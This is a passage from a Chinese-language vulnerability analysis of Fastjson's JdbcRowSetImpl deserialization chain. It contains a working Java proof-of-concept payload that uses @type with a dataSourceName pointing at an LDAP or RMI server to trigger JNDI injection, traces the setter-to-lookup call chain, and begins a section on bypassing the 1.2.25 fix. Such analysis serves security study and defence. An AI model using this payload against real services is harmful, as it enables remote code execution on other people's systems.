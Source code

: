POC代码：

```
package com.nice0e3;

import com.alibaba.fastjson.JSON;

public class POC `{`
    public static void main(String[] args) `{`
//               String PoC = "`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://127.0.0.1:1099/refObj\", \"autoCommit\":true`}`";
        String PoC = "`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true`}`";
        JSON.parse(PoC);
    `}`

`}`
```

[![](https://p0.ssl.qhimg.com/t0129cffe59ddb4ca02.png)](https://p0.ssl.qhimg.com/t0129cffe59ddb4ca02.png)

看到payload中的`dataSourceName`参数在解析时候则会调用`setDataSourceName`对`DataSourceNamece`变量进行赋值，来看到代码

[![](https://p0.ssl.qhimg.com/t01d87c5c339e87266a.png)](https://p0.ssl.qhimg.com/t01d87c5c339e87266a.png)

而`autoCommit`也一样会调用`setAutoCommit`

[![](https://p2.ssl.qhimg.com/t019c723b2e9d2dd9a5.png)](https://p2.ssl.qhimg.com/t019c723b2e9d2dd9a5.png)

`setAutoCommit`方法调用`this.connect();`

[![](https://p5.ssl.qhimg.com/t011533f9b9d6417623.png)](https://p5.ssl.qhimg.com/t011533f9b9d6417623.png)

lookup中则是传入了`this.getDataSourceName()`，返回dataSource变量内容。而这个dataSource内容则是在前面`setDataSourceName`方法中进行设置的，该参数是可控的。所以可以进行JDNI注入从而达到命令执行。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E9%93%BE"></a>利用链
- -&gt; JdbcRowSetImpl.execute()
- -&gt; JdbcRowSetImpl.prepare()
- -&gt; JdbcRowSetImpl.connect()
- -&gt; InitialContext.lookup(dataSource)
而在Fastjson JdbcRowSetImpl 链利用中，则是利用了后半段。



## 0x02 绕过方式

### <a class="reference-link" name="1.2.25%E7%89%88%E6%9C%AC%E4%BF%AE%E5%A4%8D"></a>1.2.25版本修复

先将Fastjson组件升级到1.2.25版本后进行发送payload，查看是否能够利用成功。
